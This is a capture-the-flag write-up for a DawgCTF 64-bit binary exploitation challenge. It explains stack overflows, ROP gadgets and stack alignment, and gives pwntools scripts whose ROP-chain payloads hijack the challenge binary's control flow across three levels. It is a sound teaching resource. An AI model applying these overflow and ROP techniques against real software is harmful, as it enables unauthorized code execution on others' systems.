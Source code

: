 ```yaml
---
title: "64 bits in my Ark and Texture"
description: "Can you pwn it? No libc or system needed. Just good ol, 64 bit binary exploitation."
pubDate: 2025-04-22
ctf: "DawgCTF"
category: "pwn"
author: "HulkOperator"
image: "./images/25-dawg/icon.png"
section: "CTFs"
---
```


## Background
### Stack Buffer Overflow
A buffer overflow occurs when excessive data is written into a space with limited capacity. When this happens, the extra data leaks out of the variable's bounds and overwrites other values on the stack. If random values overflow the buffer, then the program crashes. However, by crafting a calculated payload, we can control the execution flow through this overflow. 

Typically, the return address is targeted when exploiting such vulnerabilities. What exactly is a return address, and what purpose does it serve? When a function completes its execution, the program needs to know where to resume operation—that's where the return address comes in. This value stored on the stack tells the processor where to continue execution after the function finishes. 

If we can overwrite the return address during the buffer overflow, we can control the program's execution flow.

### ROP Gadgets
This challenge requires a heavy reliance on ROP Gadgets to obtain the flag. Hence, before moving to the solution, let's understand what they mean. 
ROP Gadgets are small sequences of machine instructions already present in a binary and end with the `ret` instruction. These gadgets can be used to manipulate values in registers. For example, the following gadget pops the value on the top of the stack into the `rdi` register and returns.
```asm
pop rdi
ret
```

### x64 Stack Alignment
While solving this challenge, I wasted a lot of time due to stack alignment issues. Hence, let's understand why it's essential. 
x86_64 architecture requires that the stack be 16-byte aligned at all times. That is, the value of the register `rsp` must be divisible by 16. If the stack is not aligned and a function is called, it will most likely result in a crash. 

## Solution
Now that we have covered the background information, let's dive into solving this challenge.

### Level 0
The binary asks three simple questions about the x86_64 Architecture, which are trivial to answer.

![Level 0 Answers](images/25-dawg/x64_level0.png)

### Level 1
Now, the actual fun begins. The Level 1 asks us to jump to the address `0x401401`. We can test if the program is vulnerable to buffer overflow using two methods. The long and tedious one would be decompiling the binary using Ghidra, analyzing the source code, and checking if it is vulnerable. A simpler approach would be to send a large input value and check if the program crashes. Let's do this.

A large input value can be generated using 
```py
print("A"*1000)
```
Entering this value crashes the program
![Vuln Confirmation](images/25-dawg/x64_level_1_1.png)

Now that we have confirmed the existence of a vulnerability, we need to identify the position of the payload that's overwriting the return address. We can do this by sending an input with a pattern.
`msf-pattern_create -l 1000`

Then fire up GDB `gdb ./chall` and enter `r` to run the program. For the level 1 input, paste the pattern generated above and identify the `rsp` value when the program crashes.
![RSP Crash Value](images/25-dawg/x64_level_1_2.png) 

Then `msf-pattern_offset -q 0x4132664131664130` can be used to identify the offset where the return address is overwritten. The result indicates the offset as 152. 

This level asks us to jump to the address `0x401401`. We can do this by sending a payload starting with 152 bytes of arbitrary data and then this address. When the function is completed, the execution flow is resumed at the address of our choice.
Well, not so fast. If we do this, we break the stack alignment and our payload causes a crash (Because 152 % 16 != 0). We must add an additional byte to our payload to keep the stack aligned.
Hence, we can use a simple `ret` gadget to maintain the stack alignment. We can identify the address of this gadget using the ROPgadget tool.
`ROPgadget --binary ./chall --opcode c3`

Since we are dealing with binary data, we can no longer copy and paste input. So, the rest of the implementation will be done using Python.
```py
from pwn import *

conn = process("./chall")

# Level 0 
conn.recvuntil(b"> ")
conn.sendline(b"2")
conn.recvuntil(b"> ")
conn.sendline(b"1")
conn.recvuntil(b"> ")
conn.sendline(b"4")
print(conn.recv().decode())

# Level 1
l1_arbitrary_data = b"A" * 152
ret_gadget = p64(0x40101a)
l1_ret_addr = p64(0x401401)

l1_payload = l1_arbitrary_data + ret_gadget + l1_ret_addr
conn.sendline(l1_payload)
print(conn.recvuntil(b"Continue:").decode())
```

### Level 2
The next level challenges us to jump to the address `0x401314` with the argument `0xDEADBEEF`. The process used to solve this level is similar to the previous level. By crashing the program, the offset for the return address turns out to be `40`. 

This is just one part of the problem. The other part is to pass `0xDEADBEEF` as an argument to this function. In the x86_64 architecture, the first four arguments are passed in the registers `rdi`, `rsi`, `rdx`, and `rcx`. Additional arguments are placed on the stack from right to left. 
Hence, we can manipulate the `rdi` value by placing `0xDEADBEEF` on the stack and jumping to the following gadget
```asm
pop rdi
ret
```
This gadget's address can be identified using `ROPgadget --binary ./chall --opcode 5fc3`.

So, our level 2 payload will look as follows
```py
l2_arbitrary_data = b"A" * 40
ret_gadget = p64(0x40101a)
pop_rdi_gadget = p64(0x4017d6)
deadbeef = p64(0xdeadbeef)
l2_ret_addr = p64(0x401314)
l2_payload = l2_arbitrary_data + ret_gadget + pop_rdi_gadget + deadbeef + l2_ret_addr
conn.sendline(l2_payload)
print(conn.recv().decode())

conn.interactive()
```

### Level 3
Level 3 has a bit more steps and challenges us to pass three arguments (`0xDEADBEEF`, `0xDEAFFACE`, and `0xFEEDCAFE`) and figure out the function's address. The challenge binary has defined these levels in different functions, namely, win1, win2, and win3. Since the address of win3 is not given, we can use GDB to identify the address: `disass win3`. This gives us the Win3 function's address `0x4011e6`. 

Now, the process used to solve this challenge is exactly the same as the previous level. However, since 3 arguments are involved, we have to utilise 3 gadgets for manipulating `rdi`, `rsi`, and `rdx` registers. 

```py
# Level 3
l3_arbitrary_data = b"A" * 56
win3_addr = p64(0x4011e6)
pop_rdi_ret = p64(0x4017d6)
pop_rsi_ret = p64(0x4017d8)
pop_rdx_ret = p64(0x4017da)

payload = l3_arbitrary_data + p64(0x40101a)+  pop_rdi_ret + p64(0xDEADBEEF) + pop_rsi_ret + p64(0xDEAFFACE) + pop_rdx_ret + p64(0xFEEDCAFE) + win3_addr
conn.sendline(payload)
print(conn.recv().decode())

conn.interactive()
```


Flag: `DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`
